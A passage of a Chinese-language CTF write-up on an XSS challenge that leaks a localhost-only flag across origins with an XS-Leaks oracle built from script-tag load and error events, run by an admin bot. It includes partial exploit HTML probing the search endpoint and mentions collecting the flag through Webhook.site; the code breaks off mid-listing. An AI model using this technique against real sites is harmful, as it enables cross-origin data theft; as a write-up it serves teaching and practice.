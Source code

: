 {{<details "Source code"></details>}}

XSS 題，我們要想辦法 Leak 出限制只有 localhost 能存取的資訊，但題目有嚴格的 [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)，前端的 JavaScript Code 無法直接與其互動，題目也沒有提供能 Hosting 到同一個 Origin 的地方，我們必須要找個方法去跨 Origin 把 Flag Leak 出來。

為了開發出能在 Admin bot 跑的 Exploit，我們先把 `search()` 的 IP 檢查拿掉，並且由不同 Origin 去 Fetch 內容（測試用的 Flag 是 `AIS3{fake_flag}`）：

![board-fetch](board-fetch.webp)

用 `fetch()` 從瀏覽器的錯誤能看出搜尋結果，但只從 JavaScript 無法得知。
這邊利用 [XS-Leaks](https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XS-Leaks) 的技巧，利用元素去幫我們抓資料，看哪一個 Callback Function 被呼叫到就能知道這次有沒有猜對：

![board-script](board-script.webp)

如果這一輪猜對了後端會回 200 給瀏覽器並附上一個正常的 JSON，但因為某些奇怪的瀏覽器特性 script tag 的 error 事件會被觸發；猜錯時會被 403 到 /，收到一串 Plain Text 並觸發 load 事件。

利用這個特性，我們能寫一個 HTML 讓 Admin Bot 執行，這邊是直接把整個 Exploit 塞進 Webhook.site 並且也用它來蒐集 Flag：

```html
<script>
async function tryChar(flag, c) {
  return new Promise((resolve) => {
    const url = `http://localhost:5000/search?q=${flag}${c}`
    const script = document.createElement('script')
    script.onload = () => resolve({ hit: false, c })
    script.onerror = () => resolve({ hit: true, c })
    script.src = url
    document.head.appendChild(script)
  })
}

async function main() {
```